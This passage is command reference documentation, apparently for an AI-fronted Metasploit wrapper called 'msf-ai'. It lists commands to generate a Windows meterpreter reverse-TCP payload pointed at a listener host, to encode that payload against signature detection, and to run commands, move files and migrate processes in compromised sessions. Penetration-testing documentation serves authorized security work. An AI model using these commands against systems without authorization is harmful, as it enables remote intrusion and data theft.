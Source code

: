 ### Payload Management

```bash
# List available payloads
msf-ai> payloads list

# Search payloads
msf-ai> payloads search meterpreter
msf-ai> payloads search --platform windows

# Generate payload
msf-ai> payload generate windows/meterpreter/reverse_tcp --lhost 192.168.1.50 --lport 4444

# Encode payload
msf-ai> payload encode --encoder x86/shikata_ga_nai --iterations 3

# Show payload options
msf-ai> payload info windows/meterpreter/reverse_tcp
```

## Session Management

### Session Operations

```bash
# List active sessions
msf-ai> sessions list
msf-ai> sessions

# Show session information
msf-ai> sessions info 1
msf-ai> sessions show 1

# Interact with session
msf-ai> sessions interact 1

# Execute command in session
msf-ai> sessions execute 1 "whoami"

# Upload/download files
msf-ai> sessions upload 1 /local/file.txt /remote/path/
msf-ai> sessions download 1 /remote/file.txt /local/path/
```

### Session Management

```bash
# Kill session
msf-ai> sessions kill 1

# Kill all sessions
msf-ai> sessions kill --all

# Background session
msf-ai> sessions background 1

# Migrate session process
msf-ai> sessions migrate 1 --pid 1234

# Upgrade session
msf-ai> sessions upgrade 1 --to meterpreter
```
